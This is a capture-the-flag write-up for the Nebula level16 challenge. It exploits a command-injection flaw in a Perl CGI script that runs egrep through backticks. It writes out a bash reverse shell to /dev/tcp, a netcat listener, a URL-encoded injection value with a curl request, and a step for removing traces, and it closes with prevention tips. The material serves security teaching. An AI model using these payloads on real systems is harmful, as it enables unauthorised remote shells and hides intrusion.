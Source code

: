 
---
### 🛰️ Challenge Summary

> A Perl CGI script listens on port `1616` and receives `username` and `password` via HTTP GET parameters. Internally, it uses the `username` in a system-level `egrep` call.
> 
> The catch? Improper input validation opens a **command injection vulnerability**.

**Login:** `level16 : level16`  
**Target Service:** `http://<ip>:1616/index.cgi?username=<input>&password=<input>`  
**Goal:** Execute commands as `flag16` and retrieve the flag.

---

### 🧾 Vulnerability Profile

#### 📂 Source Behavior

The Perl script does the following:

1. Extracts `username` from the query string.
    
2. Converts it to uppercase.
    
3. Truncates after the first whitespace.
    
4. Passes the result into a backticked shell command:
    

```perl
@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
```

#### ⚠️ Why It's Dangerous

- **Backticks** in Perl (` `` `) invoke the shell.
    
- No input escaping means special characters (`;`, `\``,` &&`) are interpreted.
    
- The uppercase conversion **does not prevent command injection**, especially when wildcards and scripts are used.
    

---

### 🔓 Exploitation Blueprint

We inject a malicious shell command using metacharacters, leveraging wildcard expansion and an uppercased filename to evade filters.

---

### 🛠️ Practical Exploit Steps

#### 🧱 Step 1: Create a Payload Script

```bash
echo 'bash -i >& /dev/tcp/<your-ip>/4444 0>&1' > /tmp/EVIL
chmod +x /tmp/EVIL
```

✅ Make sure the filename is **uppercase** to survive the Perl script’s transformation.

#### 📡 Step 2: Prepare Listener

On your local machine:

```bash
nc -lvnp 4444
```

#### 🌐 Step 3: Craft the Injection Payload

**Injected Command:**

```bash
;/tmp/EVIL;
```

**URL-encoded:**

```
%3B%2Ftmp%2FEVIL%3B
```

#### 🛰️ Step 4: Send the Exploit Request

```bash
curl "http://<nebula-ip>:1616/index.cgi?username=%3B%2Ftmp%2FEVIL%3B&password=test"
```

The script runs `egrep`, but due to our injection, `/tmp/EVIL` is executed instead.

---

### 🏁 Getting the Flag

Once your listener receives the connection:

```bash
whoami
# flag16

getflag
# You have successfully executed getflag on a target account
```

---

### 🧹 Post-Exploitation Cleanup

Remove the injected script to avoid leaving traces:

```bash
rm /tmp/EVIL
```

---

### 🔒 Final Reflections

This level exemplifies how **shell metacharacters combined with weak input handling** can yield arbitrary code execution—even when basic sanitization is attempted.

#### 🧷 Prevention Checklist

- Avoid backticks—use safe APIs (e.g., Perl’s `open()` with list form).
    
- Validate and sanitize input aggressively.
    
- Don’t rely solely on character transformations (like uppercasing) for security.
    

---
